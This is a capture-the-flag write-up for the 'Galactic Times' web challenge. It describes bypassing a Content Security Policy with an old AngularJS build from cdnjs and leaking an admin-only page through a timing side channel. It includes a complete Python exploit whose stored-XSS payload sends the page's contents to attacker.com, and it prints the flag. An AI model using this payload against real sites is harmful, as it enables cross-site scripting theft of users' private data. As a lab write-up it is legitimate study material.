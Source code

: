 # The Galactic Times

## Challenge

The webpage is a news article where we can leave feedback which will be viewed by an authorised user.

Regular users cannot access the `/list` or `/alien` paths.

The flag is located in the `/alien` path.

### Content Security Policy

```js
directives: {
    defaultSrc: ["'self'"],
    scriptSrc: ["'self'", "'unsafe-eval'", "https://cdnjs.cloudflare.com/"],
    styleSrc: ["'self'", "'unsafe-inline'", "https://unpkg.com/nes.css/", "https://fonts.googleapis.com/"],
    fontSrc: ["'self'", "https://fonts.gstatic.com/"],
    imgSrc: ["'self'", "data:"],
    childSrc: ["'none'"],
    objectSrc: ["'none'"]
}
```

## Solution

Thanks to [Ming](https://ubcctf.github.io/authors/ming/) for the `script-src` CSP bypass.

Since cloudflare is included in the `script-src`, we can use an older version of angular hosted by cloudflare to execute a script that we include inside an injected HTML element.

### Less cool exfiltration

Thanks to [Robert](https://ubcctf.github.io/authors/Nneonneo/) for the DNS exfiltration and for suggesting the use of `window.location`.

Initially, we tried DNS exfiltration by inserting a `link` element with `rel=dns-prefetch` and a `href` pointing to a domain we controlled.
This worked when testing with chromium, but not using puppeteer, which is what the challenge used.

Robert realised we could ignore the CSP policies if we just redirected the user entirely using `window.location` and pointing it at a url we controlled, specifying the flag as the path.

### Cool exfiltration

The bot determines when it should close using `waitUntil: 'networkidle2'`:

```js
await page.goto('http://127.0.0.1:1337/list', {
    waitUntil: 'networkidle2'
});
```

So if we make an unlimited number of requests, the browser will never close.
However, it is set to timeout after 30000 miliseconds and throw an exception.

As the bot is run by the same master node process as the server, both the bot and server will crash.

The supervisor will restart the process after a couple seconds, but the downtime can be detected by sending some requests 30 seconds after the initial request, spaced 0.5 seconds apart.

We can convert the flag to a binary string and pass it as our while condition to determine if a bit is 0 or 1:

```js
while(output.charCodeAt(0).toString(2)[0] === "1") {
    await fetch("http://127.0.0.1:1337/alien");
}
```

Placing this in our payload, the browser will be caught in an infinite loop if and only if the first bit of the flag is 1.

In our exploit script, we can sleep for about 30 seconds, then start sending requests to check for downtime, which would indicate a timeout:

```py
time.sleep(29.5)
for i in range(10):
    time.sleep(0.5)
    val = requests.post(base_url, data={"a":"b"}, verify=False)
    print(val)
```

This process can be repeated for each bit in the flag.
However, each bit takes over 30 seconds to read, so it is advisable to reduce the search space by omitting the known characters of the flag and the leading bit of each character.

## Exploit

```py
#!/usr/bin/env python3

import requests
import json
import time

real_url = "localhost:1337"
base_url = 'http://' + real_url + '/api/submit'

def send_payload(url, payload):
    response = requests.post(url, data=payload, verify=False)
    return response.content

def create_payload():
    payload = """<script src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.6.0/angular.min.js> </script><K Ng-App>{{$new.constructor('
        const dostuff = async () => {
            const res = await fetch("http://127.0.0.1:1337/alien");
            const text = await res.text();
            const obj = document.createElement("div");
            obj.innerHTML = text;
            output = obj.getElementsByClassName("edition")[0].innerHTML.replaceAll(/./g,(m)=>m.charCodeAt(0).toString(16));
            window.location = "https://attacker.com/" + output;
        };
        dostuff();
        ')()}}"""
    return {"feedback": payload}

# Payload for cool solution
"""
while(output.charCodeAt(0).toString(2)[0] === "1") {
    await fetch("http://127.0.0.1:1337/alien");
}
"""

def do_real():
    val = send_payload(base_url, create_payload())
    print(val)

# Detect downtime for cool solution:
"""
time.sleep(29.5)
for i in range(10):
    time.sleep(0.5)
    val = requests.post(base_url, data={"a":"b"}, verify=False)
    print(val)
"""

do_real()
```

## Flag

`CHTB{th3_wh1t3l1st3d_CND_str1k3s_b4ck}`

